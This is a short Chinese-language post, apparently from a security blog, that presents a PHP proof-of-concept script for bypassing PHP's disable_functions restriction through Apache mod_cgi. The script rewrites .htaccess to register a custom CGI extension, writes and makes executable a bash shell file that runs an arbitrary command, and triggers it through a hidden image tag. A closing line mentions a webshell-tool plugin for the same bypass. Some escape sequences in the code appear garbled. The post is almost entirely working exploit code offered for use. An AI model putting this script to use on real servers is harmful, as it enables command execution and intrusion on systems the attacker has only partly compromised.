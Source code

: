 给出一个POC脚本：

```php
<?php
$cmd = "ls /"; //command to be executed
$shellfile = "#!/bin/bashn"; //using a shellscript
$shellfile .= "echo -ne "Content-Type: text/html\n\n"n"; //header is needed, otherwise a 500 error is thrown when there is output
$shellfile .= "$cmd"; //executing $cmd
function checkEnabled($text,$condition,$yes,$no) //this surely can be shorter
{
    echo "$text: " . ($condition ? $yes : $no) . "<br>n";
}
if (!isset($_GET['checked']))
{
    @file_put_contents('.htaccess', "nSetEnv HTACCESS on", FILE_APPEND); //Append it to a .htaccess file to see whether .htaccess is allowed
    header('Location: ' . $_SERVER['PHP_SELF'] . '?checked=true'); //execute the script again to see if the htaccess test worked
}
else
{
    $modcgi = in_array('mod_cgi', apache_get_modules()); // mod_cgi enabled?
    $writable = is_writable('.'); //current dir writable?
    $htaccess = !empty($_SERVER['HTACCESS']); //htaccess enabled?
        checkEnabled("Mod-Cgi enabled",$modcgi,"Yes","No");
        checkEnabled("Is writable",$writable,"Yes","No");
        checkEnabled("htaccess working",$htaccess,"Yes","No");
    if(!($modcgi && $writable && $htaccess))
    {
        echo "Error. All of the above must be true for the script to work!"; //abort if not
    }
    else
    {
        checkEnabled("Backing up .htaccess",copy(".htaccess",".htaccess.bak"),"Suceeded! Saved in .htaccess.bak","Failed!"); //make a backup, cause you never know.
        checkEnabled("Write .htaccess file",file_put_contents('.htaccess',"Options +ExecCGInAddHandler cgi-script .dizzle"),"Succeeded!","Failed!"); //.dizzle is a nice extension
        checkEnabled("Write shell file",file_put_contents('shell.dizzle',$shellfile),"Succeeded!","Failed!"); //write the file
        checkEnabled("Chmod 777",chmod("shell.dizzle",0777),"Succeeded!","Failed!"); //rwx
        echo "Executing the script now. Check your listener <img src = 'shell.dizzle' style = 'display:none;'>"; //call the script
    }
}
?>
```

蚁剑上也有绕过disable_functions的插件
